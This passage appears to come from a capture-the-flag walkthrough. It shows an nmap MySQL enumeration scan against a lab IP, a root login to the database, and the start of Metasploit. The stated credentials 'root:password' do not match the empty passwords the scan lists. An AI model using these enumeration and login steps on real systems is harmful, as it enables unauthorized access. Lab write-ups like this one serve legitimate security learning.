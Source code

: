 ```
└─$ nmap --script=mysql-enum 10.10.106.201
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-19 19:44 EDT
Nmap scan report for 10.10.106.201
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0

Nmap done: 1 IP address (1 host up) scanned in 18.15 seconds
```
 *you found the credentials: "root:password"*
 
Good, now- we think we have a set of credentials. Let's double check that by manually connecting to the MySQL server. We can do this using the command "mysql -h [IP] -u [username] -p"
```
┌──(kali㉿kali)-[~/Downloads]
└─$ mysql -h 10.10.106.201 -u root -p 
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 45
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> exit
Bye

```
Okay, we know that our login credentials work. Lets quit out of this session with "exit" and launch up Metasploit.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ msfconsole                       
                                                  

                 _---------.                                                       
             .' #######   ;."                                                      
  .---,.    ;@             @@`;   .---,..                                          
." @@@@@'.,'@@            @@@@@',.'@@@@ ".                                         
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;                                         
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'                                         
     "--'.@@@  -.@        @ ,'-   .'--"                                            
          ".@' ; @       @ `.  ;'                                                  
            |@@@@ @@@     @    .                                                   
             ' @@@ @@   @@    ,                                                    
              `.@@@@    @@   .                                                     
                ',@@     @   ;           _____________                             
```